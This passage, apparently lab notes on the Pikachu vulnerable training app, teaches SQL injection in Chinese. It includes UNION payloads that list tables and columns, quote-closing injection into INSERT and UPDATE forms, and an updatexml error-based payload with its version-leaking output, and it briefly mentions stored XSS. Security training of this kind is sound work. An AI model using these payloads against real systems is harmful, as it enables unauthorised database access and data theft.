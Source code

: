 那么我们的payload就需要这样编写

```
lucy' union select table_schema,table_name from information_schema.tables where table_schema='pikachu'#
```

![image-20210107143922622](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210107143922622.png)

**获取字段名的MySQL语句：**

```mysql
select id,email from member where username = 'lucy' union select table_name,column_name from information_schema.columns where table_name='users';
```

**Payload:**

```
lucy' union select table_name,column_name from information_schema.columns where table_name='users'#
```















前面都基于union或者select查询的注入，但其实插入和更新也是可以是注入的，不仅可能是sql注入，也可能存在存在存储型xss（比如这里注册的时候用户写![img](https://blog.csdn.net/cynthrial/article/details/x), 登录的时候你就可以发现弹窗了）。insert注入的时候如果通过子查询语句拼接并登录上去在找刚才插入的位置，每次测试都要注册一个帐号，那就比较麻烦了。基于updatexml()、extractvalue()、floor()等构造报错点输出我们想要的数据就比较方便了。对于insert语句一般比较常见类似这种

```mysql
insert into USERS（username, passwd,email） values('','','')
```

想要插入语句的时候可以通过or来构造闭合，比如username填入字段

`' or evil_sql or '`, 插入到原句中就可以实现执行恶意语句的效果

```mysql
insert into USERS（username, passwd,email） values('' or evil_sql or','','')
```

基于报错注入用户名处payload就为

```
kobe2' or updatexml(1,concat(0x7e,version()),0) or '
```

然后密码字段随便输入一个提交就能发现我们查询版本的的报错回显：

```
XPATH syntax error: '~5.7.27'
```

UPDATE的注入同理，也是可以用同样的payload，需要注意的是，填写update表单的时候记得每一栏都要填上再点submit，不然是不执行的，这个是靶场后端代码的问题。


